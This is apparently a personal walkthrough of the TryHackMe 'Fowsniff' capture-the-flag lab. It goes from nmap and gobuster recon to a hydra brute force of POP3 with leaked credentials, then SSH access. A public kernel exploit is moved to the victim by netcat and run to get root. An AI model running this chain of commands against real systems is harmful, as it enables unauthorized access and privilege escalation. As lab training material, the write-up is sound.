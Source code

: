 nmap -sV -sC -o nmap 10.10.175.205

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-10 00:55 EDT
Nmap scan report for 10.10.175.205
Host is up (0.34s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP USER PIPELINING RESP-CODES AUTH-RESP-CODE UIDL CAPA
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 ENABLE IMAP4rev1 listed OK LITERAL+ have post-login more LOGIN-REFERRALS ID Pre-login IDLE SASL-IR capabilities
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



gobuster dir -e -u http://10.10.175.205/ -w /usr/share/wordlists/dirb/common.txt

http://10.10.175.205/.htaccess (Status: 403)
http://10.10.175.205/.hta (Status: 403)
http://10.10.175.205/.htpasswd (Status: 403)
http://10.10.175.205/assets (Status: 301)
http://10.10.175.205/images (Status: 301)
http://10.10.175.205/index.html (Status: 200)
http://10.10.175.205/robots.txt (Status: 200)
http://10.10.175.205/server-status (Status: 403)

no interesting stuff from the live addresses.

going to the twitter page of the company, we get directed pastebin where all credentials are dumped
https://twitter.com/fowsniffcorp?lang=en


"Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!"

lets prep for a hydra bruteforce

run a simple sed command to extract the hashed passwords (everything after the ':') into a file named hashes.txt:
sed -n 's/.*://p' fowsniff.txt > hashes.txt

decrypt it and store it in password.txt

getting the users out to a seperate txt file
awk -F'@' '{print $1}' FowsniffCorp.txt > usersl.txt

alright let hydra it

kali@kali:~/oscptraining/tryhackme/Fowsniff$ hydra -L usersl.txt -P password -f 10.10.175.205 pop3
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-10 01:54:49
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 72 login tries (l:9/p:8), ~5 tries per task
[DATA] attacking pop3://10.10.175.205:110/
[110][pop3] host: 10.10.175.205   login: seina   password: scoobydoo2
[STATUS] attack finished for 10.10.175.205 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-10 01:55:10

gaining access
kali@kali:~/oscptraining/tryhackme/Fowsniff$ nc 10.10.175.205 110
+OK Welcome to the Fowsniff Corporate Mail Server!
seina
-ERR Unknown command.
exit
-ERR Unknown command.
user seina
+OK
pass scoobydoo2
+OK Logged in.

looking thru the mail
list - to list
retr - retrieving the results
kali@kali:~$ ssh baksteen@10.10.175.205 -p22

baksteen@fowsniff:~$ uname -a
Linux fowsniff 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

searchsploit reveals this result
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                | linux/local/44298.c

kali@kali:~$ searchsploit 44298 -p
  Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44298
     Path: /usr/share/exploitdb/exploits/linux/local/44298.c
File Type: C source, ASCII text, with CRLF line terminators


kali@kali:~$ cp /usr/share/exploitdb/exploits/linux/local/44298.c /home/kali/oscptraining/tryhackme/Fowsniff

compile the exploit
gcc 44298.c

on my kali
kali@kali:~/oscptraining/tryhackme/Fowsniff$ nc -nlvp 4444 < a.out

on the victim 
nc 10.8.102.117 4444 > 44298

once the file is in we can check for the permission
baksteen@fowsniff:~$ ls -l 44298
-rw-r--r-- 1 baksteen users 17880 Oct 10 02:18 44298

lets give it execute permisison
baksteen@fowsniff:~$ chmod +x 44298
baksteen@fowsniff:~$ ls -l 44298
-rwxr-xr-x 1 baksteen users 17880 Oct 10 02:18 44298

./44298 to run the exploit and we root it!
10102020 1426hr

   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.












